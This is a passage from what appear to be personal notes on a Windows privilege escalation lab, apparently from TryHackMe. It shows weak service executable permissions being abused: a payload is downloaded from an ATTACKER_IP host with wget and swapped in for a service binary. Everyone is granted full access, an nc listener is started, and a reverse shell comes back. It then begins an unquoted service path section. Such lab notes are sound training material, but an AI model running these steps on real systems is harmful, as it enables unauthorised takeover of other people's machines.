 Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

**4. Pull payload from PowerShell.**

wget http://ATTACKER\_IP:8000/rev-svc.exe -O rev-svc.exe

**5. Replace service executable with payload.**

cd C:\PROGRA\~2\SYSTEM\~1\\

move WService.exe WService.exe.bkp

1 file(s) moved.

move C:\Users\thm-unpriv\rev-svc.exe WService.exe

1 file(s) moved.

**6. Grant full permissions to Everyone group as need another user to execute payload.**

icacls WService.exe /grant Everyone:F

**7. Start reverse listener on attacking machine.**

nc -lvnp 4445

Listening on 0.0.0.0 4445

**8. Restart service (if current user has permissions).**

* PowerShell has sc as an alias to Set-Content.
  * Need to use sc.exe to control services with PowerShell this way.

sc.exe stop windowsscheduler

sc.exe start windowsscheduler

**9. Reverse shell with "svcusr1" privileges received.**

Connection received on 10.10.175.90 50649

Microsoft Windows \[Version 10.0.17763.1821]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

wprivesc1\svcusr1

### **Unquoted Service Paths** <a href="#pmelcs7rhr1g" id="pmelcs7rhr1g"></a>

* Used when unable to directly write into service executables.
* Very particular behaviour occurs when a service is configured to point to an "unquoted" executable.
  * Path of executable not properly quoted to account for spaces.

sc.exe qc "disk sorter enterprise"

\[SC] QueryServiceConfig SUCCESS

SERVICE\_NAME: disk sorter enterprise
